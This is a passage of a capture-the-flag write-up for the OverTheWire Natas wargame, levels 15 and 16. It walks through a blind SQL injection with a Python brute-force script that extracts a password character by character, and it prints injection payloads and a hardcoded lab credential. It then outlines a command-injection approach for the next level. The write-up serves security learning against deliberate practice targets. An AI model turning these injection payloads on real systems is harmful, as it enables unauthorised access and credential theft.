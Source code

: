 If we use `natas16` as the Username, we get a confirmation that the user exists, which is awesome, we'd be screwed if it didn't.



```
import requests
import string

password = ""
chars = list(string.ascii_lowercase)
chars2 = list(string.ascii_uppercase)
numbs = list(range(10))
combo = chars+chars2+numbs


while True:
   for c in combo:
       url = "http://natas15.natas.labs.overthewire.org/index.php"
       #url = "http://ptl-b4178f0b-d147a1d2.libcurl.so/?search=admin%27+%26%26+this.password.match(/^{}{}.*$/)%00".format(password, c)
       post_data = { 'username' : "natas16\" and password like binary '{}{}%'#".format(password, c)}
       resp = requests.post(url, data=post_data, headers={"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="})
       if "This user exists." in resp.text: # Test for correct guess
           password += str(c)
           print "Current State of password: {}".format(password)
       continue
```

`natas16" AND password LIKE 'W%'"`

^ This is the first thing we tried, and we got a positive return, so we know we have a blind injection. But it kinda sucks guessing at stuff (also I genuinely tried "W" first, no idea why) so we wrote a little Python script to do it for us. 

Annnnnd we mucked it up, we got a password back, but it 

`natas16" AND password LIKE BINARY 'WaI%'"`

## Level 16
This next one is interesting, it's a combination of one of the earlier challenges (where we had to beat a `grep`), and the last challenge where we had a blind SQL injection. 

To beat this we'll have to write some new Python, the flow of the script is as follows:

1. Fire off a command injection
2. If the output is Blank, we've got a hit, jump to 4
3. If the output contains a known word we missed, go back to 1
4. Concatenate the characters into a string
5. Spit it out at the end

Pretty simple right? Let's get coding!

